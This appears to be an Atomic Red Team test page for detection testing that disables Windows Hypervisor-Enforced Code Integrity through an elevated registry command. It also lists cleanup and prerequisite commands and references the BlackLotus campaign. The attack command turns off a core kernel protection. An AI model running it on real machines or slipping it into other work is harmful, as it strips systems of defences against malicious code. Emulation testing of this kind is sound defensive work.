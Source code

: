 <br/>
<br/>

## Atomic Test #44 - Disable Hypervisor-Enforced Code Integrity (HVCI)
This test disables Hypervisor-Enforced Code Integrity (HVCI) by setting the registry key HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity "Enabled" value to "0".
The pre-req needs to be ran in order to setup HVCI and have it enabled. 
We do not recommend running this in production.
[Black Lotus Campaign](https://www.microsoft.com/en-us/security/blog/2023/04/11/guidance-for-investigating-attacks-using-cve-2022-21894-the-blacklotus-campaign/)
[Microsoft](https://learn.microsoft.com/en-us/windows/security/threat-protection/device-guard/enable-virtualization-based-protection-of-code-integrity)

**Supported Platforms:** Windows


**auto_generated_guid:** 70bd71e6-eba4-4e00-92f7-617911dbe020






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```powershell
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "RequirePlatformSecurityFeatures" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "Locked" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Locked" /f
```



#### Dependencies:  Run with `powershell`!
##### Description: HVCI must be enabled
##### Check Prereq Commands:
```powershell
if (((cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" 2> nul | findstr EnableVirtualizationBasedSecurity 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "RequirePlatformSecurityFeatures" 2> nul | findstr RequirePlatformSecurityFeatures 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "Locked" 2> nul | findstr Locked 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" 2> nul | findstr Enabled 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Locked" 2> nul | findstr Locked 2> nul"))) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "RequirePlatformSecurityFeatures" /t REG_DWORD /d 1 /f
```